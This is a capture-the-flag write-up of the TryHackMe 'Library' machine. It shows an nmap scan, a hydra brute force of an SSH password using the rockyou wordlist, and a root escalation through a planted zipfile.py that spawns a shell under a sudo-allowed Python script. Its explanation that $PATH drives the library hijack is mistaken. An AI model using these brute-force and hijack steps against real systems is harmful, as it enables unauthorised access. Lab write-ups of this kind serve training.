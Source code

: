 ```yaml
---
title : "Library - Write Up"
date : 2021-07-04T14:07:30+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "TryHackMe's easy level machine."
tags : ["hydra","python","PATH","sudo","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/bsidesgtlibrary)  | Easy  |  [stuxnet](https://tryhackme.com/p/stuxnet)  |

## Reconn

Using `nmap` we get the open ports of the machine

```bash
╰─ lanfran@parrot ❯ map 10.10.70.175                                                                                               ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 14:10 CEST
Nmap scan report for 10.10.70.175
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.75 seconds
```

So let's go to the webpage on the port 80.

It's a pretty simple page, but if we are a little smart, we can get 4 users!
- www-data
- root
- meliodas
- anonymous

Also, if we go to the `robots.txt` file, we get a hint "rockyou"

```bash
╰─ lanfran@parrot ❯ curl 10.10.70.175/robots.txt                                                                                   ─╯
User-agent: rockyou 
Disallow: /%  
```

Maybe if we try to bruteforce with `hydra` the SSH login of an user with the rockyou wordlist?

Let's try it!

## Foothold - User

```bash
╰─ lanfran@parrot ❯ hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.70.175                                        ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-22 21:56:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.70.175:22/
^V[STATUS] 97.00 tries/min, 97 tries in 00:01h, 14344303 to do in 2464:40h, 16 active
[22][ssh] host: 10.10.70.175   login: meliodas   password: [REDACTED]
```

YES! It worked!

So let's use the password of meliodas and login to the SSH!

```bash
╰─ lanfran@parrot ❯ ssh meliodas@10.10.70.175                                                                                      ─╯
[...]
meliodas@ubuntu:~$ ls -la
total 40
drwxr-xr-x 4 meliodas meliodas 4096 Aug 24  2019 .
drwxr-xr-x 3 root     root     4096 Aug 23  2019 ..
-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
-rw------- 1 root     root       44 Aug 23  2019 .bash_history
-rw-r--r-- 1 meliodas meliodas  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 meliodas meliodas 3771 Aug 23  2019 .bashrc
drwx------ 2 meliodas meliodas 4096 Aug 23  2019 .cache
drwxrwxr-x 2 meliodas meliodas 4096 Aug 23  2019 .nano
-rw-r--r-- 1 meliodas meliodas  655 Aug 23  2019 .profile
-rw-r--r-- 1 meliodas meliodas    0 Aug 23  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 meliodas meliodas   33 Aug 23  2019 user.txt
meliodas@ubuntu:~$ cat user.txt 
6[REDACTED]c
```
We get the user's flag

## Root

First let's run `sudo -l` to see if the user is inside the sudoers.

```bash
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
Yes, we can run a file with `/usr/bin/python*` and with sudo!

Reading the file `bak.py` we can see that it's using a library called "zipfile" and the $PATH is set to first check the home directory.
So we can exploit this, and create a malicious "lib" in the home directory.

```bash
meliodas@ubuntu:~$ cat bak.py 
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
meliodas@ubuntu:~$ echo $PATH
/home/meliodas/bin:/home/meliodas/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
meliodas@ubuntu:~$ echo 'import os; os.system("/bin/sh")' > zipfile.py
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt	
e[REDACTED]7
```
And we rooted the machine!

That's all from my side, hope you find this helpful!